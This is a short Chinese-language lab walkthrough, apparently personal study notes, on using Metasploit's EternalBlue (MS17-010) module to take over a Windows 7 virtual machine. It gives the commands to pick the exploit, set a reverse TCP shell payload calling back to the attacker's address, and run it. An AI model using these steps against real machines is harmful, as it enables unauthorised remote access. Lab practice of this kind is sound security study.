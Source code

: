 # 使用ms17_010渗透win7

```mermaid
graph TD
发现主机-->扫描端口和操作系统-->查找对应漏洞-->查找漏洞模块-->配置程序-->run
```

ms17_010针对windows445端口(共享文件), 现有一台win7虚拟机IP 192.168.80.129, 开放445端口, 使用msf渗透该虚拟机

## auxiliary

使用auxiliary判断目标主机是否适用smb17_010漏洞

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-09_09-02-13.png"/>

这里发现80网段, 有一台主机适用

## exploit

使用`search ms17_010 type:exploit`来查找对应的攻击模块

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-09_09-07-17.png"/>

这里使用`exploit/windows/smb/ms17_010_eternalblue`, 填写相关参数

## payload

攻击载荷, 执行具体的攻击, 这里使用`payload/windows/x64/shell/reverse_tcp`, 会让攻击机与目标机建立shell连接

`set payload/windows/x64/shell/reverse_tcp `

设置shell本地监听端口 ` set lhost 192.168.80.200`

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-09_10-38-00.png"/>

## run

执行`run`命令连接目标机, 有一定机率无法连接。

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-09_10-40-55.png"/>

==由于windows dos窗口使用gbk编码， 所以会出现乱码。使用chcp65001将编码改为utf-8==
